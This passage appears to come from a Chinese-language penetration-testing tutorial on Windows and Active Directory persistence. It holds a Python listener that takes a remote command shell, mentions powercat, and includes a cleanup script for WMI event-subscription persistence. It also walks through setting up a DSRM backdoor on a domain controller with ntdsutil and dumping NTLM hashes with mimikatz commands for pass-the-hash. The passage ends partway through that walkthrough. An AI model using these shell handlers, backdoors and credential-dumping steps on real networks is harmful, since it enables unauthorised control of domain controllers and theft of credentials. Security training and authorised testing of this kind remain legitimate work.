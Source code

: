 | ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```python<br>import socket<br>import re<br><br>pattern = re.compile(r'[A-Z]:\\.*?>')<br>def recv_end(the_socket):<br>    total_data = []<br>    data = b''<br>    while True:<br>            data = the_socket.recv(1024)<br>            #print(data)<br>            if not data:<br>                raise ConnectionAbortedError<br>            data = str(data, encoding = 'gbk')<br>            total_data.append(data)<br>            if pattern.search(data, re.M):<br>                break<br>            if len(total_data) > 1:<br>                last_pair = total_data[-2] + total_data[-1]<br>                if pattern.search(last_pair, re.M):<br>                    break<br>    return ''.join(total_data)<br><br># 建立一个服务端<br>server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>port = 6999<br>server.bind(('192.168.41.1', port)) #绑定要监听的端口<br>server.listen(5) #开始监听 表示可以使用五个链接排队<br>while True:# conn就是客户端链接过来而在服务端为期生成的一个链接实例<br>    print('------------Listening on {}------------'.format(port))<br>    conn, addr = server.accept() #等待链接,多个链接的时候就会出现问题,其实返回了两个值<br>    print(conn)<br>    while True:<br>        try:<br>            se = input(recv_end(conn))<br>            if not se:<br>                se = '\r\n'<br>            #print(bytes(se, encoding = "utf8"))<br>            conn.send(bytes(se, encoding = 'utf-8')) #然后再发送数据<br>        except BaseException as e:<br>            print('\n' + addr[0] + ':' + str(addr[1]) + '已关闭')<br>            break<br>    conn.close()           # 关闭连接<br>``` |

powercat.ps1 -> powershell版netcat。([https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat))

clean.ps1 -> 清除evil3.vbs创建的过滤器、消费者、绑定器。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```powershell<br>#Filter<br>Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='filtP1'" \| Remove-WmiObject -Verbose<br><br>#Consumer<br>Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='consP1'" \| Remove-WmiObject -Verbose<br><br>#Binding<br>Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%filtP1%'" \| Remove-WmiObject -Verbose<br>``` |

## [](#2-%E5%9F%9F%E6%8E%A7%E5%90%8E%E9%97%A8)2 域控后门

### [](#21-dsrm-%E5%90%8E%E9%97%A8)2.1 DSRM 后门

DSRM(Directory Services Restore Mode) 是 Windows 域环境中域控制器的安全模式启动选项。每个域控制器有一个**本地管理员**账号(也就是 DSRM 账号)。DSRM 的用途是:允许管理员在域环境出现故障或崩溃时还原、修复、重建活动目录数据库，使域环境的运行恢复正常。在域环境创建初期，DSRM 的密码需要在安装 DC 时设置，且很少会被重置。修改 DSRM 密码最基本的方法是在 DC 上运 ntdsutil 行命令。

在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。在 Windows Server 2008 以后版本的系统中不需要安装此补丁。如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

我们知道，每个 DC 都有本地管理员(administrator)账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

#### [](#211-%E4%BF%AE%E6%94%B9-dsrm-%E5%AF%86%E7%A0%81%E7%9A%84%E6%96%B9%E6%B3%95)2.1.1 修改 DSRM 密码的方法

1.  微软公布了修改DSRM密码的方法。在域控上打开命令行环境，常用命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br># NTDSUTIL：打开ntdsutil<br>set DSRM password # ：修改DSRM的密码<br>reset password on  server null # 在当前域控制器上重置DSRM的密码<br># q(第1次)：退出DSRM密码设置模式<br># q(第2次)：退出ntdsutil<br>``` |

2.  如果域控制器的系统版本为 Windows Server 2008(已安装KB961320)及以上，可以将 DSRM 密码同步为已存在的域账号密码。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br>NTDSUTIL # 打开ntdsutil<br>set DSRM password # 修改 DSRM 的密码<br>sync from domain account # 域用户名字：使DSRM的密码和指定域用户的密码同步<br># q(第1次)  退出DSRM密码设置模式<br># q(第2次)  退出ntdsutil<br>``` |

#### [](#212-%E8%AE%BE%E7%BD%AE-dsrm-%E5%90%8E%E9%97%A8)2.1.2 设置 DSRM 后门

##### [](#2121-%E7%9B%B4%E6%8E%A5%E4%B8%BA-dsrm-%E8%AE%BE%E7%BD%AE%E6%96%B0%E5%AF%86%E7%A0%81)2.1.2.1 直接为 DSRM 设置新密码

1.  为 DSRM 设置新密码，获取 NTLM 哈希值，修改 DSRM 登录方式，使用哈希传递攻击域控
    
2.  查看 SAM 文件中本地管理员 administrator 的 NTLM 哈希值
    

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```powershell<br>privilege::debug<br>token::elevate<br>lsadump::sam<br>``` |
